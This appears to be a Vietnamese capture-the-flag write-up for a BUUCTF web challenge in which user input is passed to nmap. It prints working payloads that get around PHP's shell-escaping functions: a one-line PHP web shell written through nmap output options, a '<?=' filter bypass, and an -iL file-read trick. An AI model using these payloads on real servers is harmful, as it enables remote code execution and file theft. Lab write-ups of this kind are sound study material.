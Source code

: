 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/203f8271-7f01-458d-864c-18f920aa1d13)

Bài này khá giống bài online tool.Nên mình chỉ làm dựa theo bài đó thôi

Viewsource thì thấy flag nằm ở /flag

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/513f5cd9-65f8-431b-9d75-eb863753cb27)

Đầu tiên, tạo Trojan

Payload: `192.1.1.1 | ' <?php @eval($_POST["hack"]); ?> -oG hack.phtml '`

Mình sử dụng `" "` để có thể bypass escapeshellcmd() và escapeshellarg()

```php
<?php
$host = ' <?php eval($_POST["cmd"]);?> -oN cmd.php ';
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $command = "nmap ". $host;
    echo $command;
?>

//nmap ' \<\?php eval\(\$_POST\[\"cmd\"\]\)\;\?\> -oN cmd.php '
//nmap ' <?php eval($_POST["cmd"]);?> -oN cmd.php '
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/dcbc43c2-797e-42cb-9b2c-c03fe51f227d)

Có vẻ là bị filter, mình thử bỏ `php` thay bằng dấu `=`

Payload: `192.1.1.1 | ' <?= @eval($_POST["hack"]); ?> -oG hack.phtml '`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e07a40b3-c893-4777-a931-abb23ce16a9e)

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4e3e0286-eb6e-4777-b7b0-86104851c78e)

Sau đó dùng antsword để cat/ flag là xong 

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/78268ec4-da3f-435c-829e-a02d720cfe86)

Sau khi đọc wu của các pháp sư trung hoa thì có thêm 1 cách nữa là sử dụng -iL

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/eaaa1559-79dc-4acc-aeab-ea51eb2f220c)

Payload : `192.1.1.1' -IL ../../../../flag -o a`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/bdd3c4c5-54e4-427c-b38d-97e256194ae9)


